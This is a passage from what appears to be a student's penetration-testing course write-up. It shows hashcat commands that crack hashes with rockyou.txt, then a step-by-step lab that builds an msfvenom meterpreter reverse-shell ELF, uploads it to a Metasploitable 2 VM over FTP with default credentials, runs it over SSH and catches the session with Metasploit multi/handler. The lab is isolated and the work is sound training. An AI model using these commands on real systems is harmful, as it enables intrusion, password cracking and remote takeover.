  

**<ins>3. Cracking the hash:</ins>**

- **Case 1**: `hashcat -m 1400 'ddd9ab3e81e06b4c405d4cc401d6651de4ec99513fe314ab7f69d66db026a1b6' rockyou.txt -o solved_2`
  - Check the solution: `cat solved_2`
  
  

- **Case 2**: `hashcat -m 100 'b89eaac7e61417341b710b727768294d0e6a277b' rockyou.txt -o solved_2`
  - `Status: Exhausted`Indicates there was no matching password in the dictionary.
  - To confirm the result: `grep -x "hashcat" rockyou.txt` (the matching plaintext was solved with an online hash cracking tool). 
  
  

  

- In conclusion, to crack the case 2 hash, another wordlist should be used. However, since case 1 hash was already cracked successfully, case 2 will be left as “unsolved”.

## References / Lähteet:
- Karvinen 2022: Cracking Passwords with Hashcat at https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ 
- Karvinen 2025 - Information security at https://terokarvinen.com/information-security/
- https://hashcat.net/wiki/doku.php?id=example_hashes
- Hashcat. (2025). example_hashes. hashcat wiki. Available at: https://hashcat.net/wiki/doku.php?id=example_hashes. 

# G) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

**<ins>Task description:</ins>**

- Generate a reverse shell payload using Msfvenom, transfer it to a vulnerable target machine (Metasploitable 2), and catch the connection with a Metasploit listener.

**<ins>Key tools:</ins>**

- **Kali Linux VM**: Used to generate the payload and catch the connection
- **Metasploitable VM**: A deliberately vulnerable Linux VM that contains common security flaws. Default login: `msfadmin:msfadmin`
- **Metasploit**: A framework that provides tools for probing/exploiting known vulnerabilities on networks and servers, managing payloads and sessions, as well as automating attacks. Includes a CLI (msfconsole) and scripting capabilities for customizing attacks.
- **Msfvenom**: A tool within the Metasploit Framework used to generate and encode custom payloads.
- **Msfconsole**: A CLI for the Metasploit Framework used to launch exploits, establish listeners, manage sessions and interact with compromised target systems.

- Both msfvenom and metasploit should come pre-installed on Kali. The following commands confirm their installation & display the tools’ help menus: `msfvenom`, `msfconsole`

**<ins>1. Setting Up an Isolated Host-Only Network: </ins>**

- A host-only network allows the two VMs (attacker & target) to communicate only with each other while preventing the attack from reaching outside networks/ the internet. 
- The host-only network has already been configured in h1 task F).  
- Disconnect the Kali VM from the internet: Disconnect the cable (adapter 1) from network settings & verify with `ping 8.8.8.8`
- Boot up both the Kali & Metasploitable VMs

- **Checking the IP addresses of the VM’s with `ifconfig` or `ip a`**:  
  - **Kali Linux**: `eth1 - 192.168.56.3`
  - **Metasploitable 2**: `eth0 - 192.168.56.4`

- **Verifying the connection between the VMs & that they are on the same network:**  
  - `ping 192.168.56.4` (from Kali VM)
  - `nmap -sn 192.168.56.0/24`  (scan the subnet to discover all active hosts)
    
  
    
  

- **Optionally scanning Metasploitable VM for open ports:**  
  - Port scanning identifies services running on open ports, which potentially expose vulnerabilities that can be exploited. 
  - Basic scan:  (top 1000 tcp ports): `nmap 192.168.56.4`
  - Port scanning reveals open ports for port 21 (FTP) and port 22 (SSH). These two will be used later to deliver and activate the reverse shell payload on the target machine. 
    
  

**<ins>2. Generating the Reverse Shell Payload:</ins>**

- Done on the Kali VM
  
- `msfvenom`is used to craft a payload that, when executed on the target machine, connects back to the Kali machine (the attacker)
  
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.3 LPORT=5555 -f elf -o reverse-sh.elf`
  - `-p`: Payload type, reverse TCP shell using Meterpreter. Architecture based on the target (x86 for Metasploitable’s 32-bit environment).
  - `LHOST`: IP address of the Kali VM (attacker)
  - `LPORT`: Port to listen on
  - `-f elf`: Format output as a Linux ELF executable
  - `-o`: Output filename

- View details of the generated payload file: `file reverse-sh.elf`

   

**<ins>3. Transferring the payload to the target (via FTP):</ins>**

- Done on the Kali VM (Both VMs should be running)
  
- Connect to the target VM (Metasploitable) using FTP: `ftp 192.168.56.4`   
- Login: `msfadmin: msfadmin`
- Upload/transfer the payload: `put reverse-sh.elf`
- Verify that the payload file has been placed at the target location: `ls`
- End the FTP session: `bye`

   

**<ins>4. Making the payload executable on the target:</ins>**

- Done on the Kali VM

- Establish SSH connection to the Metasploitable VM: `ssh msfadmin@192.168.56.4` & type the default password when prompted.
  - Note: To explicitly allow ssh-rsa (alternatively ssh-dss) when connecting: ` ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.4`.
  - Apparently the Metasploitable VM offers only these older key types which are disabled by default in newer versions of OpenSSH for security reasons (explanation & revised command fetched from chatGPT)

  

- Make the file executable: `chmod +x reverse-sh.elf`

  

- The SSH connection will be left open on this terminal. New terminal will be opened for the listener (next step).

**<ins>5. Setting up/establishing a listener on Kali:</ins>**

- Done on the Kali VM

- Since a firewall has been set up on the Kali VM, it should be instructed to allow incoming TCP connections on port 5555. Otherwise, it might/will block the reverse shell trying to connect back and the shell will fail to establish:
  - `sudo ufw allow 5555/tcp `  Allows the reverse shell connection to reach the listener
  - `sudo ufw status` Checks the status
  - `sudo ufw delete allow 5555/tcp` For revoking the permission later if necessary

- Setting up the listener prepares Metasploit to catch the reverse shell connection when the payload runs on the target.

- Launch Metasploit: `msfconsole`
- Use the multi/handler module to use the listener & wait for incoming payload connections: `use exploit/multi/handler`

- Set the required options to match the payload (matching settings with msfvenom):
  - `set lhost 192.168.56.3 `   IP address of the Kali VM (attacker)
  - `set lport 5555`
  - `set payload linux/x86/meterpreter/reverse_tcp `

- Start the listener:
  - `'run -j `  The `-j` flag runs the exploit as a background job.
 
  

**<ins>6. Executing the Payload on the target:</ins>**

- Done on the Kali VM

- Execute the payload in the terminal with the ongoing SSH connection: `./reverse-sh.elf`
- The reverse shell connects back to the Kali VM (attacker). A meterpreter session should start on the Kali terminal running the Metasploit listener:

  
  
  

- Remove the malicious payload from the Kali VM: `rm reverse-sh.elf `
  
## References / Lähteet:
- Karvinen 2025 - Tunkeutumistestaus at https://terokarvinen.com/tunkeutumistestaus/ 
- hxrda (2025). PenetrationTesting_Tunkeutumistestaus/h1-Kybertappoketju.md at main · hxrda/PenetrationTesting_Tunkeutumistestaus. GitHub. Available at: https://github.com/hxrda/PenetrationTesting_Tunkeutumistestaus/blob/main/h1-Kybertappoketju.md  
- 101LABS (2022). Lab 75 – Establishing a reverse shell on a Linux target using Msfvenom and Metasploit - 101Labs.net. Available at: https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/.
- Hacktricks (2025). MSFVenom - CheatSheet - HackTricks.wiki Available at: https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html.

# Tehtävänanto:
- Karvinen 2025 - Tunkeutumistestaus at https://terokarvinen.com/tunkeutumistestaus/#h4-leviamassa
